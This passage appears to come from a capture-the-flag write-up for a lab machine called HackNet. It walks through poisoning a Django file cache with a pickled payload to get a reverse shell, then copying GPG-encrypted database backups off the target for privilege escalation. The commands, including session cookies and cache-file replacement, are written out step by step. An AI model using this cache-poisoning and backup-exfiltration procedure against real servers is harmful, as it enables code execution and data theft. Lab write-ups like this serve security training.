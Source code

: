 **Step 3: Generate and upload payload**
```bash
python3 exploit.py > payload.b64
scp payload.b64 mikey@hacknet.htb:/tmp/
```

**Step 4: Warm the cache**
```bash
# Trigger Django to create cache files
curl -H "Cookie: sessionid=d3tbldo9so7qc2noba8xgxi5knkiro19; csrftoken=cW045K573dHHFdiulUmV1BEPv47N8D5I" \
http://hacknet.htb/explore >/dev/null
```

**Step 5: Identify and replace cache files**
```bash
# List recent cache files
ls -lt /var/tmp/django_cache/*.djcache | head

# Replace newest cache files with our payload
cd /var/tmp/django_cache
for i in 1f0acfe7480a469402f1852f8313db86.djcache 90dbab8f3b1e54369abdeb4ba1efc106.djcache; do
    rm -f $i
    cat /tmp/payload.b64 | base64 -d > $i
    chmod 777 $i
done
```

**Step 6: Trigger the payload**
```bash
curl -H "Cookie: sessionid=d3tbldo9so7qc2noba8xgxi5knkiro19; csrftoken=cW045K573dHHFdiulUmV1BEPv47N8D5I" \
http://hacknet.htb/explore >/dev/null
```

We successfully get a reverse shell as user `sandy`!

## Privilege Escalation: GPG-Encrypted Database Backups

### Backup Discovery
```bash
cd /var/www/HackNet/backups
ls -la
# Found 3 backup files:
# backup01.sql.gpg
# backup02.sql.gpg  
# backup03.sql.gpg
```

### Extracting the Backups
```bash
# Start HTTP server to transfer files
python3 -m http.server 8002

# Download encrypted backups from Kali
curl -O http://hacknet.htb:8002/backup01.sql.gpg
curl -O http://hacknet.htb:8002/backup02.sql.gpg
curl -O http://hacknet.htb:8002/backup03.sql.gpg
```
